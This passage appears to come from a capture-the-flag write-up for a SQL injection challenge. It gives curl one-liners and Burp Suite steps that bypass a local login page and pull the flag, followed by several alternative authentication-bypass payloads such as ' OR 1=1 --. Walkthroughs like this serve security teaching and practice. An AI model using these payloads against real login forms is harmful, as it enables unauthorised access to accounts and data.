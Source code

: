 ### Method 3: Command-Line Exploitation (curl)

**One-Liner Exploit:**
```bash
# Send injection payload
curl -c cookies.txt -b cookies.txt \
  -d "username=admin' OR '1'='1' --&password=test" \
  -L http://localhost:8080/login

# Retrieve vault page with flag
curl -b cookies.txt http://localhost:8080/vault | grep -o "Exploit3rs{[^}]*}"
```

**Output:**
```
Exploit3rs{cheese_vault_sql_inject_2025}
```

---

### Method 4: Burp Suite Exploitation

**Step 1:** Configure browser proxy (127.0.0.1:8080)

**Step 2:** Intercept login request

**Step 3:** Modify POST parameters:
```
username=admin'+OR+'1'%3D'1'+--&password=test
```

**Step 4:** Forward request

**Step 5:** Observe response - Admin session established

---

## Alternative Payloads

### Payload Variations

All of these work for this challenge:

**Payload 1 (Used in writeup):**
```
admin' OR '1'='1' --
```

**Payload 2 (Simpler):**
```
' OR 1=1 --
```

**Payload 3 (Admin-specific):**
```
admin'--
```
